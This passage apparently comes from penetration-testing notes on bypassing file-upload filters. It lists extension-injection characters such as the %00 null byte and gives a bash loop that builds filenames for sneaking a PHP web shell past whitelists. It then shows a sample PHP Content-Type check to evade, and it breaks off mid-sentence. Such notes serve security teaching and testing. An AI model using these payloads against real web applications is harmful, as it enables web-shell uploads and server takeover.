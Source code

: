 #### Character Injection

Inject character before or after the final extension Examples:

```
%20
%0a
%00
%0d0a
/
.\
.
…
:
```

For example, (shell.php%00.jpg) works with PHP servers with version 5.X or earlier, as it causes the PHP web server to end the file name after the (%00), and store it as (shell.php), while still passing the whitelist. Bash script for all permutations:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.phps' '.pht' '.phtm' '.phtml' '.pgif' '.phar' '.hphp'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Type Filters

#### Content-Type

File fails to upload even if we try some of the tricks we learned in the previous sections. If we change the file name to shell.jpg.phtml or shell.php.jpg, or even if we use shell.jpg with a web shell content, our upload will fail. As the file extension does not affect the error message, the web application must be testing the file content for type validation. As mentioned earlier, this can be either in the _Content-Type Header_ or the _File Content_.

Example:

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

To fuzz the content type header use [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) To get only image type:
